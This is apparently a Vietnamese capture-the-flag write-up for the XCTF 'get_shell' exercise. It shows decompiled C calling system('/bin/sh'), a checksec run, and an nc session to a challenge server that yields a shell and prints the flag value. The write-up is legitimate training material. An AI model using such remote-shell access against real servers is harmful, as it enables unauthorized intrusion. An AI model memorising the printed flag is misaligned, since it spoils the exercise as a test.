 # XCTF - PWN Exercise - get_shell

```c
#include<stdio.h>

int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("OK,this time we will get a shell.");
  system("/bin/sh");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/6_get_shell λ checksec get_shell      
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/6_get_shell/get_shell'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

Bạn chỉ cần netcat đến server là có shell tương tác đọc flag.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/6_get_shell λ nc 111.200.241.244 63403
ls
bin
dev
flag
get_shell
lib
lib32
lib64
cat flag
cyberpeace{70d813fa83114e6359db33b705d75446}
```
